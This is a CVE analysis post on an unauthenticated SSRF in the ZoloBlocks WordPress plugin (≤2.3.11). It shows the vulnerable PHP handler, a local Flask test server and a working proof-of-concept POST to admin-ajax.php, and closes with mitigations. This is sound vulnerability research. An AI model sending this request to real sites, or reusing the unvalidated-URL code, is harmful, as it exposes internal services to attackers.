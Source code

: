 # CVE-2025-60161 Analysis & POC


<!--more-->

## CVE & Basic Info

A Server-Side Request Forgery (SSRF) vulnerability in BdThemes ZoloBlocks allows an attacker to make forged requests from the server. This issue affects ZoloBlocks versions from an unspecified initial version up to 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) and **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

The vulnerability existed in the file `TemplatesV1.php`, however this file was removed in the patched release.

![Diff](removed.png "TemplatesV1.php was removed in the patch")

### Vulnerable Code

```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Check input parameter from POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Retrieve and sanitize the user-provided URL
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Send an HTTP request to that URL
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // If there's an error when fetching data, return a JSON error
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Retrieve the response body and decode the JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Return a successful JSON response including the imported content
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
The `demo_import()` function accepts a URL from the user → issues an HTTP request (`wp_remote_get`) to fetch JSON → decodes it and returns the result via `wp_send_json_success()`.
Because it does not validate or restrict the URL, it can be abused to cause **SSRF**.
{{< /admonition >}}

The `demo_import()` function is registered as a callback for an action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

This means:

* The `wp_ajax_nopriv_` hook is used for **unauthenticated users** (anonymous users).
* When a client sends an AJAX request to the endpoint `admin-ajax.php?action=zolo_demo_import`, WordPress will invoke the `demo_import()` function.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Content read from the local service")

## Conclusion

CVE-2025-60161 is an SSRF in `demo_import()` of ZoloBlocks (≤ 2.3.11) caused by accepting a user-supplied URL and calling `wp_remote_get()` without validation. The endpoint allows unauthenticated access (`wp_ajax_nopriv_...`). The issue has been patched in **2.3.12**.

## Key takeaways

* Root cause: not validating/whitelisting the URL before calling `wp_remote_get()`.
* Impact: sites running ZoloBlocks ≤ 2.3.11; an attacker can query internal services (SSRF).
* Quick mitigation: update to **2.3.12** or block the `zolo_demo_import` endpoint.
* Prevention: whitelist/validate URLs, limit egress, protect AJAX actions with nonces/permissions.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-31-cve-2025-60161/  

